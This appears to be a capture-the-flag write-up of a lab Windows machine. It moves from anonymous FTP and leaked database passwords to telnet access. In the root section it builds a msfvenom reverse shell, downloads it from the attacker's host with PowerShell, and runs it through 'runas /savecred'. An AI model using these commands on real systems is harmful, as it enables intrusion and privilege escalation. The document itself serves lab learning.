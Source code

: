 # Access
## Nmap
![](https://i.imgur.com/1jrYzz2.png)

I found a ftp service is running, and next tried to login annoymous.

## FTP
Through the Nmap result, I tried to log in FTP server.

![](https://i.imgur.com/rWyGfbl.png)

In the "Engineer" dir, I found a dir named 'Access Control.zip', that sounds suspicious.
```
$ get "Access Control.zip"
```
In the "Backups" dir, also find a file.
```
$ get "backup.mdb"
```
## backup.mdb
That's see the file, maybe it has something important information, so I use mdb hacking:
```
$ mdb-tables backup.mdb
```
![](https://i.imgur.com/oc3zby7.png)

This is a surprise discovery, We discover a table named "auth_user".
```
$ mdb-export backup.md auth_user
```
![](https://i.imgur.com/Tk6UFZX.png)

Wow, we already get engineer's password!
## Access Control.zip
I tried to analysis the zip, the first thing is unzip it.
```
$ 7z x Access\ Control.zip
```
It need to enter password, I tried to enter the password I found in backup.mdb, success!
unzip it, I found a file named **"Access Control.pst"**.

It's a outlook file, so I use this command to read it:
```
$ readpst "Access Control.pst"
```
Success get "Access Control", I can found a password in that.
```
$ cat "Access Control"
```
![](https://i.imgur.com/7ncNDKQ.png)
## Telnet
Use the account/password from "Access Control" file login.

![](https://i.imgur.com/DX54uPC.png)

In the Desktop, I success found "user.txt".

![](https://i.imgur.com/MOjNGvR.png)
## Root
Finally, at the most difficult level, I tried a lot of ways to get root, and I found the **"runas"** tips from the machine.
I create a reverse shell in the attack machine first.
```
$ msfvenom -p windows/shell/reverse_tcp LHOST=<Your IP> LPORT=<Port> -f exe > shell.exe
```
then use powershell to get the exe file in the victim machine.
```
$ powershell -c (new-object System.Net.WebClient).DownloadFile('http://<Your IP>/shell.exe','C:\Users\security\shell.exe')
```
The final and most important step, use "runas" command to reverse shell.
```
$ runas /savecred /user:Administrator shell.exe
```
In this step, "runas" command had a special attritube named "/savecred", means the password that can be used to log in with the last user preset.
success get the shell in the meterpreter.

![](https://i.imgur.com/oBBPKCP.png)

root flag:

![](https://i.imgur.com/9UogihS.png)
